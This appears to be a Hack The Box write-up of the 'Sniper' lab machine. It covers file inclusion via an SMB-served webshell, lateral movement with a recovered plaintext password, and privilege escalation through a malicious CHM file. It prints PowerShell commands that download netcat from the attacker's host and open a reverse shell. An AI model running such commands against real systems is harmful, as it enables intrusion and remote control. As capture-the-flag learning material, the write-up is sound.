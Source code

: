 ```yaml
---
title: SNIPER HTB 🔫
date: '2020-03-28 17:40:00'
categories: ["htb"]
---
```


tl&dr

Port 80 was the port I attacked. On other ports I had no access. Found several directories by using gobuster, but on /blog directory there was a parameter including a .php file. And I suspected for lfi(local file inclusion). 
I tried everything from [PayloadAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion).
I setup samba on my box and then I try to serve a file by using smb. At first I try a .php file which included a shell on it.
But nothing happend and the website throws a 404 page. I see the logs and see that the file was indeed accesed. I try to server a webshell this time, and It works.
Now I upload [netcat](https://eternallybored.org/misc/netcat/) and get a shell, on a writable folder I previously find by using `dir /Q`. At wwroot folder of the webserver I get some credentials.
I verify if these credentials work by using smbclient. I had to use the password with the user Chris. Now I need a way become that user.

```
powershell.exe -c "$user='Sniper\Chris'; $pass='36mEAhz/B8xQ~2VM'; try { Invoke-Command {cmd /c curl -o C:\Users\Chris\Desktop\nc64.exe 10.10.14.33/nc64.exe}  -ComputerName Sniper -Credential (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force)) } catch { echo $_.Exception.Message }" 2>&1
```
This will download nc to chris dektop folder. And then I get a reverse shell as chris.

```
powershell.exe -c "$user='Sniper\Chris'; $pass='36mEAhz/B8xQ~2VM'; try { Invoke-Command {cmd /c C:\Users\Chris\Desktop\nc64.exe 10.10.14.33 4444 -e cmd.exe}  -ComputerName Sniper -Credential (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force)) } catch { echo $_.Exception.Message }" 2>&1
```

Poking around the box I find a *instructions.chm* file located at Downloads folder. I get the file by copying it to my samba share, and then I install xchm to view that file.
The file tells me that a developer had enough with his boss and hopes someone will snipe his boss. Because this does not make much sense I try to find more info.
I find a folder located at C:\Docs which has a todo.txt inside of it. This time is the boss which yels at Chris about his php skills and then tells him to drop a file with the app documentation into that folder.
I use [nishang](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1) script to create a malicious chm file.
To do this I had to switch to a Windows VM and then download [HTML Help WorkShop](https://www.microsoft.com/en-us/download/details.aspx?id=21138).
The malicious script executes a reverse shell from Chris Desktop folder by using *nc.exe*. I had troubles with this part because I had to only include my instructions.chm and nothing else.
And then I get reverse shell as Administrator. 

So there is something like cron running. I try to see for scheduled jobs but I can't find the one which executes my malicious .chm file.
I enable **rdp** and after login by using rdp. I see that there was a file running which executed the malicious .chm.
But why I couldn't Had more than 3 files there?(2 file which I had no permission to delete and then 1 file which I upload).

The Script was located at `C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\sig.ps1`

And had the following content


```
1 while($true) {
2    get-process | where name -eq hh | Stop-Process -force
3    sleep 2
4    del C:\Docs\*.chm
5    sleep 20
6    Get-ChildItem "C:\Docs" -Filter *.chm | Foreach-Object {
7        $sig =  [char[]](gc $_.FullName -Encoding Byte -ReadCount 1 -TotalCount 2) -join ''
8        if($sig -eq 'IT') {
9                write "entre"
10                hh.exe $_.FullName
11        }
12        else {
13                write "boo"
14        }
15    }
16    sleep 10
17}
```

After running this script I can see that I was mistaken for having only my file at that folder. Because The script is running continuously I may had entered my file when code on line *3* was getting executed thus making me go nuts. So what this script
does..? At first this script stops every process which include the name hh then it waits 2 seconds and then deletes every file containing .chm at the end. Next It waits for 20 seconds and then It loops through every .chm file and checks if they are valid on line *7* by checking 2 byte from its header. If these bytes are equal to IT then hh.exe command is executed and
we get a shell. If not the script waits another 10 seconds and then executes again from line 2.

This box was great overall. It is also great to see how the creators are doing these boxes.

----------------------------------------
Read more:
[Chm Virus](https://www.bleepingcomputer.com/news/security/malicious-chm-files-being-used-to-install-brazilian-banking-trojans/),
[Bypass Php Remote URL Inclusion restriction](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html) 
